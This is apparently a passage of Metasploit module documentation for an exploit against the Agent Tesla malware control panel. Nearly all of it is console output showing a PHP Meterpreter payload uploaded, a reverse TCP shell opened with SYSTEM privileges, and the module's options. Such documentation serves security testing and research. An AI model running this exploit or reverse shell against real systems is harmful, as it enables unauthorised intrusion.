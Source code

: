 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .UKtE.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.UKtE.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:4444 -> 169.254.162.16:51698) at 2020-06-16 14:55:19 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.UKtE.php

meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 18:10:39 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 18:10:39 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 18:10:39 -0500  jsonp.php
100666/rw-rw-rw-  7959   fil   2016-09-21 18:10:40 -0500  mysql.sql
100666/rw-rw-rw-  1453   fil   2016-09-21 18:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 18:10:40 -0500  post.php
100666/rw-rw-rw-  7921   fil   2016-09-21 18:10:40 -0500  postgres.sql
100666/rw-rw-rw-  1642   fil   2018-09-11 17:31:16 -0500  server_processing.php
100666/rw-rw-rw-  7857   fil   2016-09-21 18:10:40 -0500  sqlite.sql
100666/rw-rw-rw-  8021   fil   2016-09-21 18:10:40 -0500  sqlserver.sql
100666/rw-rw-rw-  14438  fil   2016-09-30 04:53:10 -0500  ssp.class.php

meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > getuid
Server username: SYSTEM (0)
meterpreter >
```

### WebPanel3.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 7.3.12, Apache 2.4.41, MariaDB 10.4.10
```
msf > use exploit/multi/http/agent_tesla_panel_rce
msf exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
```